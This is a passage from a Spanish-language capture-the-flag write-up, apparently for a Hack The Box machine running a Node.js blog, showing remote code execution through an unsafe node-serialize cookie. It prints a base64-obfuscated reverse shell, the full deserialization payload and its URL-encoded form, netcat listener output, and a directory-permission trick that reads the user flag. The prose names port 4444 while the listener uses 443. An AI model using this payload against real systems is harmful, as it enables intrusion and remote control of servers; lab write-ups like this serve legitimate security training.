 Agregamos la salida del comando anterior a nuestro objeto `JSON` serializado de esta forma: "`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTAvNDQzIDA+JjEK | base64 -d | bash`". De esta manera, se decodifica y ejecuta con bash.

```bash
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTAvNDQzIDA+JjEK | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

Codificamos nuevamente este objeto `JSON` en nuestra cookie utilizando `URL-encoding`.

`%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%5c%6e%20%5c%74%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%79%4d%54%41%76%4e%44%51%7a%49%44%41%2b%4a%6a%45%4b%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%5c%6e%20%7d%28%29%22%7d`

Por último, configuramos una escucha `Netcat` en el puerto `4444`, enviamos la cookie como antes y esperamos la reverse shell: 

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.210] from (UNKNOWN) [10.10.11.139] 50262
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$ whoami
whoami
admin
```

Como vemos hemos obtenido con éxito una shell como `admin`, ahora podemos seguir los pasos de "[Tratamiento de la TTY](https://itzjp-sec.github.io/posts/tratamiento-tty/)" para obtener una shell más interactiva y funcional. 

Es curioso que, a pesar de no tener acceso a nuestro directorio personal en `/home/admin`, tengamos la propiedad del directorio, lo que nos permite cambiar sus permisos y, por lo tanto, extraer la flag.

```bash
admin@nodeblog:~$ cd /home/admin/
bash: cd: /home/admin/: Permission denied
admin@nodeblog:~$ ls -l /home/
total 0
drw-r--r-- 1 admin admin 232 Jul 19 08:44 admin
admin@nodeblog:~$ chmod +x /home/admin
admin@nodeblog:~$ cat /home/admin/user.txt
fae575919af*********************
```

## Escalación de privilegios

---
